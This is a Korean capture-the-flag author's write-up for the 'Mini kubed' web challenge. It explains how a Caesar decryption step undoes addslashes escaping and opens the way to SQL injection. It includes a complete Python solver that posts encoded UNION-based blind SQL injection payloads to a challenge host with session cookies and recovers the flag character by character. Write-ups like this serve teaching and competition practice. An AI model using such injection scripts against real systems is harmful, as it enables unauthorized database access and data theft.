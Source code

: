 # WhiteHat League 1 - Demon CTF [![Awesome](https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg)](https://github.com/sindresorhus/awesome)
Mini kubed Write-Up - 출제자 풀이
-----------------------------------

## Introduce
* Author : 박광호 ([debukuk](http://debu.kr/))
* Field  : Web
* E-Mail : debukuk154@gmail.com
* Date   : 2017-09-12

## Intention
* sql injection 필터링이 되는데 이걸 카이사르 디코딩이 되면서 우회를 할 수 있는가?
* sleep based sql injection 을 할 수 있는가?
* 플래그 형식은 **Demon{...}**

## Solve
* 공방전 플래그를 따보자 슥슥

auth 함수를 보면 $flag = decrypt( $flag, 0x7 ); 이부분에서 카이사르 decrypt 를 해주는데(`$r .= chr( ord( $plain[ $i ] ) - $key );`) 카이사르 복호화를 진행하면서 sqli_filter 함수에서 addslashes 함수로 sql injection을 방어하던 코드가 우회됩니다.<br>

그래서 auth 부분에 인젝션을 해서 플래그를 뽑아내면 됩니다.<br>

### Solver
<pre>
    <code>
import requests

ret = ''

def encrypt(val, key):
    rst = ''
    for i in range(0, len(val)):
        rst += chr(ord(val[i])+key)
    return rst

"""
def decrypt(val, key):
    rst = ''
    for i in range(0, len(val)):
        rst += chr(ord(val[i])-key)
    return rst
"""

for i in range(1, 39 + 1):
    for j in range(32 + 0x7, 127):
        payload = "'/**/union/**/select/**/1,0,3,if(ascii(substr((select/**/flag/**/from/**/task/**/where/**/score=99999999)," + str(i) + ",1))=" + str(j) + ",1,0)#"
        s = requests.Session()
        r = s.post('http://s1.forensics.site/?auth', {'flag': encrypt(payload, 0x7)}, cookies={'_token': "h059uj7mee1v74h0nu1gie66r3", "pangho_dd": 'asdsa'})
        if (r.text).find("Congratz") != -1:
            ret += chr(j)
            print("[*] So far till '" + ret + "' & '" + encrypt(ret, 0x7) + "' result")
            break

print("End result: " + ret)
print("End decoding result: " + encrypt(ret, 0x7))
    </code>
</pre>

